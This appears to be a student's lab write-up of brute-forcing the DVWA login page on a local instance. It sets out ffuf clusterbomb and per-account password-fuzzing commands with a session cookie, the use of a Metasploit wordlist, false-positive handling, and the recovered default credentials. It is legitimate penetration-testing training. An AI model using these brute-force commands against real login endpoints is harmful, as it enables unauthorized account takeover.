






# DVWA — User and Password Enumeration via Brute Force

## Overview

This lab focused on identifying valid DVWA usernames and passwords through brute-force and fuzzing techniques.

The testing was performed against an authorized local DVWA instance running on:

```text
http://localhost:8080
```

The DVWA security level was set to **Low**.

The main objectives were to:

* Inspect the DVWA session and request using Burp Suite.
* Identify candidate usernames.
* Identify valid passwords using fuzzing.
* Use ffuf to enumerate username/password combinations.
* Identify and handle false-positive responses.
* Manually verify the discovered credentials.
* Document the exact wordlists and commands used.
* Preserve evidence of the testing process.

---

# 1. Lab Environment

| Item             | Value                     |
| ---------------- | ------------------------- |
| Target           | DVWA                      |
| Target URL       | `http://localhost:8080`   |
| Security Level   | Low                       |
| Operating System | Fedora Linux              |
| Web Proxy        | Burp Suite                |
| Fuzzing Tool     | ffuf 2.1.0-dev            |
| HTTP Method      | GET                       |
| Target Endpoint  | `/vulnerabilities/brute/` |

All testing was performed against the local DVWA laboratory environment.

---

# 2. Tools Used

## Burp Suite

Burp Suite was used to:

* Access the DVWA application through its built-in browser.
* Inspect HTTP requests.
* Identify the DVWA session cookie.
* Confirm the parameters used by the brute-force functionality.
* Verify successful credentials manually.

## ffuf

ffuf was used for automated fuzzing of the DVWA brute-force endpoint.

The installed version was:

```text
ffuf version: 2.1.0-dev
```

---

# 3. Burp Suite Session Inspection

The DVWA login functionality was first inspected using Burp Suite.

The brute-force request was identified as:

```http
GET /vulnerabilities/brute/?username=test&password=test&Login=Login HTTP/1.1
Host: localhost:8080
```

The request included the DVWA session information:

```text
PHPSESSID=<session-id>; security=low
```

The session cookie was then supplied to ffuf so that the fuzzing requests were made within the active DVWA session.

### Evidence



---

# 4. DVWA Brute-Force Endpoint

The brute-force functionality used the following parameters:

| Parameter  | Purpose            |
| ---------- | ------------------ |
| `username` | Username candidate |
| `password` | Password candidate |
| `Login`    | Login submission   |

The fuzzing URL was therefore structured as:

```text
http://localhost:8080/vulnerabilities/brute/?username=FUZZ&password=FUZ2&Login=Login
```

The application returned the following failure message for invalid credentials:

```text
Username and/or password incorrect.
```

This message was used as an ffuf response filter.

---

# 5. Username Wordlist

The initial username wordlist examined was:

```text
/home/maeel/metasploit-framework/data/wordlists/unix_users.txt
```

The list contained `admin`, but it did not contain all of the DVWA usernames required for this exercise.

A dedicated DVWA username wordlist was therefore created:

```text
/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/results/dvwa_usernames.txt
```

Its contents were:

```text
admin
gordonb
1337
pablo
smithy
```

This list contained the candidate usernames used for the DVWA enumeration.

---

# 6. Password Wordlist

The password wordlist used during the password fuzzing was:

```text
/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt
```

The wordlist contained:

```text
1021 entries
```

Some relevant entries included:

```text
password
abc123
letmein
```

---

# 7. Initial Username Fuzzing

The first username fuzzing attempt used the Metasploit Unix username wordlist while keeping the password fixed as `password`.

Command:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=FUZZ&password=password&Login=Login' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_users.txt' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.'
```

The result identified:

```text
admin
```

This showed that the fixed password approach could identify accounts whose password happened to be `password`, but it could not identify accounts using different passwords.

---

# 8. Username Fuzzing with the DVWA Wordlist

The dedicated DVWA username wordlist was then tested.

Command:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=FUZZ&password=password&Login=Login' \
-w '/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/results/dvwa_usernames.txt' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.'
```

This identified:

```text
admin
smithy
```

The other candidate usernames were not returned because their passwords were not `password`.

The important lesson from this test was that username fuzzing with a fixed password is not sufficient when the password for each account is unknown.

---

# 9. Clusterbomb Username and Password Enumeration

To enumerate the remaining accounts without already knowing their passwords, ffuf was configured to test combinations of candidate usernames and passwords.

The clusterbomb command used was:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=FUZZ&password=FUZ2&Login=Login' \
-w '/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/results/dvwa_usernames.txt:FUZZ' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt:FUZ2' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.'
```

The attack tested the candidate usernames against the 1,021-entry password list.

This resulted in the following valid combinations:

```text
admin    : password
smithy   : password
gordonb  : abc123
pablo    : letmein
```

This was the main enumeration technique used to discover the four credentials without initially knowing their passwords.

### Evidence



---

# 10. Password Fuzzing — Admin and Smithy

After identifying valid accounts, password fuzzing was also performed against individual accounts.

Admin and Smithy were tested together against the password wordlist.

The username list used for this run contained:

```text
admin
smithy
```

The command was:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=FUZZ&password=FUZ2&Login=Login' \
-w '/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/results/admin_smithy.txt:FUZZ' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt:FUZ2' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.'
```

The successful password for both accounts was:

```text
password
```

### Evidence



---

# 11. Individual Password Fuzzing

Individual password fuzzing runs were also performed and saved as JSON evidence.

## Admin

Command:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.' \
-o results/ffuf_password_admin.json \
-of json
```

Successful result:

```text
password
```

Saved evidence:

```text
results/ffuf_password_admin.json
```

---

## Smithy

Command:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=smithy&password=FUZZ&Login=Login' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.' \
-o results/ffuf_password_smithy.json \
-of json
```

Successful result:

```text
password
```

Saved evidence:

```text
results/ffuf_password_smithy.json
```

---

## Gordonb

Command:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.' \
-o results/ffuf_password_gordonb.json \
-of json
```

Successful result:

```text
abc123
```

Saved evidence:

```text
results/ffuf_password_gordonb.json
```

---

## Pablo

Command:

```bash
ffuf -u 'http://localhost:8080/vulnerabilities/brute/?username=pablo&password=FUZZ&Login=Login' \
-w '/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt' \
-H 'Cookie: PHPSESSID=<session-id>; security=low' \
-fr 'Username and/or password incorrect\.' \
-o results/ffuf_password_pablo.json \
-of json
```

Successful result:

```text
letmein
```

Saved evidence:

```text
results/ffuf_password_pablo.json
```

---

# 12. False Positive Handling

During the password fuzzing runs, ffuf repeatedly returned the following candidate:

```text
74k&^*nh#$
```

The response characteristics were:

```text
Status: 200
Size: 4323
Words: 171
Lines: 109
```

At first glance, the HTTP 200 status could make this look like a successful result.

However, the valid authentication responses had different characteristics.

For example:

```text
password
Status: 200
Size: 4413
Words: 179
Lines: 109
```

Because `74k&^*nh#$` consistently returned the anomalous response size and word count, it was not treated as a valid password.

This demonstrates why HTTP status codes alone should not be used to determine whether a fuzzing result is valid.

---

# 13. Additional Candidate — 1337

The username:

```text
1337
```

was included in the candidate username wordlist.

No valid password for this username was found within the selected 1,021-entry password wordlist.

Therefore, `1337` was not included among the four confirmed credentials.

This result should be interpreted as:

> No valid credential was found using the selected wordlist.

It does not prove that the account does not exist.

---

# 14. Confirmed Credentials

The final confirmed credentials were:

| Username  | Password   | Username Wordlist    | Password Wordlist    | Verification          |
| --------- | ---------- | -------------------- | -------------------- | --------------------- |
| `admin`   | `password` | `dvwa_usernames.txt` | `unix_passwords.txt` | Manual login verified |
| `smithy`  | `password` | `dvwa_usernames.txt` | `unix_passwords.txt` | Manual login verified |
| `gordonb` | `abc123`   | `dvwa_usernames.txt` | `unix_passwords.txt` | Manual login verified |
| `pablo`   | `letmein`  | `dvwa_usernames.txt` | `unix_passwords.txt` | Manual login verified |

---

# 15. Manual Login Verification

Each discovered credential was manually tested through the DVWA Brute Force page.

## Admin

Credentials:

```text
Username: admin
Password: password
```



---

## Smithy

Credentials:

```text
Username: smithy
Password: password
```



---

## Gordonb

Credentials:

```text
Username: gordonb
Password: abc123
```


---

## Pablo

Credentials:

```text
Username: pablo
Password: letmein
```



---

# 16. Evidence Files

## Screenshots

The screenshots directory contains:

```text
screenshots/
├── burp_cookies.png
├── ffuf_clusterbomb.png
├── ffuf_password_fuzz.png
├── login_success_admin.png
├── login_success_smithy.png
├── login_success_gordonb.png
└── login_success_pablo.png
```

## Results

The results directory contains:

```text
results/
├── admin_smithy.txt
├── credentials_summary.md
├── dvwa_usernames.txt
├── ffuf_password_admin.json
├── ffuf_password_gordonb.json
├── ffuf_password_pablo.json
├── ffuf_password_smithy.json
├── ffuf_user_fuzz.json
└── found_users.txt
```

---

# 17. Exact Wordlists Used

## Username Wordlist

Full path:

```text
/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/results/dvwa_usernames.txt
```

Contents:

```text
admin
gordonb
1337
pablo
smithy
```

## Password Wordlist

Full path:

```text
/home/maeel/metasploit-framework/data/wordlists/unix_passwords.txt
```

Number of entries:

```text
1021
```

---

# 18. What Worked

The following techniques successfully contributed to the enumeration:

1. Burp Suite request inspection identified the DVWA brute-force endpoint and session cookie.
2. The dedicated DVWA username list provided the relevant candidate accounts.
3. Fixed-password username fuzzing identified accounts using `password`.
4. Clusterbomb fuzzing allowed username/password combinations to be tested without knowing the passwords beforehand.
5. Individual password fuzzing confirmed each discovered credential.
6. Manual login testing provided final verification.
7. Response size and word count were useful for identifying the anomalous `74k&^*nh#$` result.

---

# 19. What Did Not Work

The initial username fuzzing approach used a fixed password:

```text
password
```

This successfully identified:

```text
admin
smithy
```

but did not identify:

```text
gordonb
pablo
```

because their passwords were different.

The username `1337` was also not associated with a valid credential using the selected password wordlist.

These results demonstrated the limitations of relying on a single fixed password during username enumeration.

---

# 20. Lessons Learned

This exercise demonstrated several important web penetration-testing concepts:

* Burp Suite can be used to inspect application requests and session information.
* Authentication endpoints can often be tested by manipulating URL parameters.
* Username enumeration and password enumeration are related but separate tasks.
* A fixed password can cause username fuzzing to miss valid accounts.
* Clusterbomb attacks can systematically test combinations of multiple input lists.
* HTTP status `200` does not automatically mean that authentication succeeded.
* Response size, word count, and application content can help identify false positives.
* Manual verification is important before reporting credentials as confirmed.
* A failed wordlist attack does not prove that a username or password does not exist; it only means no match was found within the tested wordlist.

---

# 21. Conclusion

The DVWA brute-force enumeration exercise successfully identified and manually verified four valid username/password combinations within the authorized local laboratory environment:

```text
admin    : password
smithy   : password
gordonb  : abc123
pablo    : letmein
```

The testing also demonstrated the importance of selecting appropriate wordlists, testing combinations rather than relying solely on fixed values, validating results using multiple response characteristics, and manually confirming discovered credentials.

All commands, wordlists, results, and screenshots required for the exercise are preserved in this directory.
